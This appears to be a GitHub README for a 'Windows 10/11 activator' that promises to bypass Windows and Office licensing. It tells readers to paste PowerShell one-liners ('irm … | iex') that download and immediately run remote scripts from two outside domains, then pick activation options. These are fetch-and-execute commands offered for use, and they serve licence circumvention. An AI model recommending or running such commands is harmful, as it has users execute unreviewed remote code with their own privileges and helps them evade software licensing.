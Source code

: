 # WIN10-11-Activator
Windows 10/11 DEV KEY ACTIVATION Bypass


Download / How to use it?
Method 1 - PowerShell (Windows 8 and later)
Open PowerShell (Not CMD). To do that, right-click on the Windows start menu and select PowerShell or Terminal.
Copy and paste the code below and press enter
--
irm https://get.activated.win | iex
--
You will see the activation options. Choose (1) HWID for Windows activation. Choose (2) Ohook for Office activation.
That's all.
More options
Alternatively, you can use the following (It will be deprecated in the future.
--
irm https://massgrave.dev/get | iex
--
The URL get.activated.win might be blocked by some DNS services because it is a new domain.
